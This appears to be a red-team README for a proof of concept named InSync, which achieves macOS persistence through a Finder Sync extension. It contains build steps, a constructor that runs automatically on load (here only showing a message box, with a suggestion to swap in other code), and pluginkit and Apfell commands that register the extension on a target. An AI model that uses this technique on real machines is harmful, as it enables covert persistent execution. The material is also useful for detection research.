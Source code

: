 # InSync
Finder Plugin Persistence. Attached is a PoC with a simple message box execution

# Resource
https://objective-see.com/blog/blog_0x11.html

## Steps to execute the attached Finder Plugin Extension (InSync)
1. Open the ```InSync.xcodeproj``` file in XCode
2. Change the code on line 17 of the methods file ```FinderSync.m``` with own Objective C code
3. In XCode Project-> Build
4. Place the app on target
5. Register Finder Extenstion Plugin
* Manually below of use the jxa script (FinderSyncPlugins.js)
    1. pluginkit -a /some/path/persist.appex
        1. pluginkit -a InSync.app/Contents/PlugIns/FinderSync.appex
    2. pluginkit -e use -i <finder sync's bundle id>
        1. pluginkit -e use -i com.apple.InSync.FinderSync
* Jxa script (FinderSyncPlugins.js) in Apfell
  1. jsimport {/path/to/FinderSyncPlugins.js}
  2. jsimport_call FinderSyncPlugins('/path/to/InSync.app')


## Instructions on how the attached Finder Plugin Extension was built
1. Xcode →New Project→Application
2. Change the Bundle Name
3. Select main project and select add target (+) on bottom
4. Add the Finder Sync Extension
5. Add the Project Name (take note of the Bundle Identifier)
6. Go to FinderSync folder and select the method file (.m)
7. Add the following on line 17
    1. Added the following for a PoC of loading the plugin (stolen from xorrior) or replace with own Objective-C code

  ```
    //automatically invoked when bundle is loaded
    **attribute**((constructor)) static void byebyebye()
    {
    // Just a message box payload
    NSAlert *alert = [[NSAlert alloc] init];
    [alert setMessageText:@"Install complete"];
    [alert addButtonWithTitle:@"OK"];
    [alert setAlertStyle:NSAlertStyleInformational];
    [alert runModal];
    }
  ```

8. Product → Build
9. Register the plugin Manually below of use the jxa script (FinderSyncPlugins.js)
    1. pluginkit -a /some/path/persist.appex
        1. pluginkit -a InSync.app/Contents/PlugIns/FinderSync.appex
    2. pluginkit -e use -i <finder sync's bundle id>
        1. pluginkit -e use -i com.apple.InSync.FinderSync
